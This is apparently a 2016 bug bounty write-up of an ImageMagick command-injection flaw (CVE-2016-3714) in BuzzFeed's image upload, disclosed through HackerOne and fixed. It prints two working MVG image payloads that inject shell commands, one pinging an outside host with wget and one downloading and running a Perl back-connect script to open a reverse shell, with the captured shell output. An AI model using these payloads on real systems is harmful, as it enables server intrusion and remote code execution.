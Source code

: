 ```yaml
---
layout: post
title:  "BuzzFeed Remote Code Execution Vulnerability"
date:   2016-07-27 17:00:00
categories:
    - project
tags:
    - Bug Bounty
    - RCE Vulnerability
    - HackerOne
---
```


We just found some vulnerabiliy on the Buzzfeed.com website. That vulnerabillity infected ImageMagick, an applications that used by Buzzfeed for processing an images that inputted by the user. Through the upload form in Buzzfeed page, an attacker can upload an image file that has been injected by malicious code.

**Infected URLs:**

https://www.buzzfeed.com/post

https://www.buzzfeed.com/settings



#### Malicious Code 1:

~~~
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"; wget https://noobsec.org:1337/ping-me; touch "hello)'
pop graphic-context
~~~


**Response:**

~~~
Connection from 54.208.98.54 port 1337 [tcp/menandmice-dns] accepted
GET /ping-me HTTP/1.1
User-Agent: Wget/1.13.4 (linux-gnu)
Accept: */*
Host: noobsec.org:1337
Connection: Keep-Alive
~~~


#### Malicious Code 2:

~~~
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"; cd /tmp && wget https://noobsec.org/backconnect.txt && mv /tmp/backconnect.txt /tmp/n00b.pl && perl /tmp/n00b.pl noobsec.org 1337; touch "hello)'
pop graphic-context
~~~


**Response:**

~~~
Connection from 54.87.231.104 port 1337 [tcp/menandmice-dns] accepted
/bin/sh: 0: can't access tty; job control turned off
$ uname –a
Linux buzzfeed-prod-web01 3.2.0-101-virtual [#141](/reports/141)-Ubuntu SMP Thu Mar 10 22:12:23 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
~~~

Exploit code above allow Buzzfeed's servers to connect to the noobsec.org's server through Port 1337, so an attacker can send a command shell to Buzzfeed server (Remote Code Execution).


Timeline

- 23 July 2016 : Report Bug to Buzzfeed
- 27 July 2016 : Buzzfeed respond and ask for details
- 27 July 2016 : Buzzfeed ask to continue disscussion via Hackerone
- 27 July 2016 : Noobsec submit bug in Hackerone
- 28 July 2016 : Buzzfeed confirmed bug has been fixed


Reference:

1. https://imagetragick.com/
2. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-3714
